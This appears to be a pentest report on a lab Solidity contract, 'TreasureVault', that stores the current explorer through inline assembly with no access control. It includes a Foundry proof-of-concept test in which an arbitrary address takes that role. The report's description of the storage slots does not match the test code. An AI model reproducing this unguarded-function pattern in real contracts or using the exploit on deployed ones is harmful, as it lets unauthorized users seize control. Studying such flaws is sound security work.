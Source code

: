 # Pentest Report for hiddenbackdoor.sol

> Author: Tran Thanh Minh
> 

<aside>
🏦

The `TreasureVault` contract is used to manage a treasure expedition, including who can access the vault. 

</aside>

# Table of contents

---

# Vulnerability

The `TreasureVault` contract contain the usage of inline assembly for accessing and modifying the `currentExplorer` address, which creates a backdoor for unauthorized users to exploit. This vulnerability can refer to one of the [OWASP Top 10 Smart Contract vulnerabilities](https://owasp.org/www-project-smart-contract-top-10/2023/en/src/SC04-access-control-vulnerabilities.html), which belong to Insecure Access Control. 

# Exploit Development

An attacker can exploit the vulnerability by directly altering storage slots in the contract to overwrite the `vaultKeeper` address (slot 2) with the attacker’s address and then trigger the `initiateExpedition` function to set him as `currentExplorer` . 

![image.png](ee225ea3-f13e-443c-b3d2-db9427596188.png)

# Explanation of Exploit

The contract uses `assembly` to store the `explorer` address in the storage slot `1` directly, bypassing any function modifiers or access control checks. There are no access control mechanisms around the `initiateExpedition` function, so anyone can invoke the function, even if they are not authorized.
Result of the exploit: 

![Exploit successfully](image.png)

Exploit successfully

# Resource

The test case to exploit: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol"; // Foundry library
import "../src/hiddenbackdoor.sol";

contract TreasureVaultTest is Test {
    TreasureVault public vault;

    address public attacker =
        address(0x1234567890123456789012345678901234567890);

    function setUp() public {
        // Deploy the TreasureVault contract
        vault = new TreasureVault();
    }

    function testInitiateExpedition() public {
        uint256 timestamp = block.timestamp;
        // Log the current explorer before calling initiateExpedition
        address initialExplorer = vault.checkCurrentExplorer();
        console.log("Initial Explorer Address: ", initialExplorer);
        // Call initiateExpedition
        vault.initiateExpedition(attacker, timestamp);
        // Log the current explorer after calling initiateExpedition
        address updatedExplorer = vault.checkCurrentExplorer();
        console.log("Updated Explorer Address: ", updatedExplorer);
        // Assert that the explorer was updated
        assertEq(
            updatedExplorer,
            attacker,
            "currentExplorer was not updated correctly"
        );
    }
}

```